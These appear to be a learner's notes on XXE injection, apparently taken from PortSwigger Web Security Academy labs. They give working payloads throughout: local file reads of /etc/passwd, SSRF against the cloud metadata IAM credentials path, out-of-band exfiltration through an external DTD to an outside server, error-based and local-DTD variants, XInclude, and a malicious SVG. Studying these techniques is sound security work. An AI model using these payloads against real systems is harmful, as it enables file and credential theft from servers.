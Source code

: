 xxe vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the applications.

entities --> way of representing an item of data withtin an xml document

DTD --> to define the structure of xml document, type of value it can contain

thus we can create custom entities and load them into other places

<!DOCTYPE test [ <!ENTITY varname "<value>"> ]>

thus is entity can be accssed like an variable anywhere,like
&varname which holds <value>

enternal entities can also be loaded

<!DOCTYPE test [ <!ENTITY test_var SYSTEM 'file:///etc/passwd'> ]>

this take the contents of the file and store it in test, which can be accessed as &test_var

External entities to retrieve files:

	<!DOCTYPE test1 [ <!ENTITY test SYSTEM "file:///etc/passwd">]><stockCheck><productId>

&test;</productId><stockCheck>

the input is check as product value and retured as error

External entitites to ssrf:

	<!DOCTYPE test1 [<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>

to make request to internal server and get sensitive data

if regular entities are blocked

<!ENTITY % <varname> SYSTEM "<url><file>">
%<varname>;

eg:
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>


<!DOCTYPE r [

<!ELEMENT r ANY >

<!ENTITY % file_request SYSTEM "https://ac211fa11ee553288081819b013e006d.web-security-academy.net/dtd.xml">

%file_request;
%take_data;
]>
<stockCheck>
	<productId>
		&return_request;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>

dtd.xml file in exploit server :

<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % take_data 
	"<!ENTITY return_request SYSTEM 
		'https://ac211fa11ee553288081819b013e006d.web-security-academy.net/here_is_your_data?%data;'>">


if the error returns value, we can use that make errors and get sensitive data

<!DOCTYPE test [
	<!ENTITY % file_request SYSTEM 
		"https://aca81f7a1fc98f2c80b9209401b800e0.web-security-academy.net/exploit.xml">

%file_request;

%okay;

] >

<stockCheck>
	<productId>
		&return_data;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>

exploit.xml:

<!ENTITY % what SYSTEM 'file:///etc/passwd'>
<!ENTITY % okay 
	"<!ENTITY return_data SYSTEM 'file:///etc/%what;'>">


local DTD redefining to invoke error based xxe

when there is hybrid structure, if external entities load can be redefined by the internal entities, this redefining bypasses the restrictions in parameter entity usage

<!DOCTYPE foo [

<!ENTITY % get SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

<!ENTITY % ISOamso '

<!ENTITY &#37; file SYSTEM "file:///etc/passwd">

<!ENTITY &#37; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///tes/&#x25;file;&#x27;>">

&#x25;eval;

&#x25;error;

'>

 %get;

]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>


html encode those inner &,',%

xinclude attack:

	when we dont have control over the doctype we can declare entities, but we can use xinclude

first you need to reference xinclude namespace 

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 

xxe in file upload
vulnerbale formats - docx, svg

even if the application doesnt accept svg they image parsing library used may prase svg which will lead to blind xxe

<?xml version="1.0" standalone="yes"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

   <text font-size="16" x="0" y="16">&xxe;</text>

</svg>

some endpoints might accept many types

we can change the content type to application/xml to attack those points


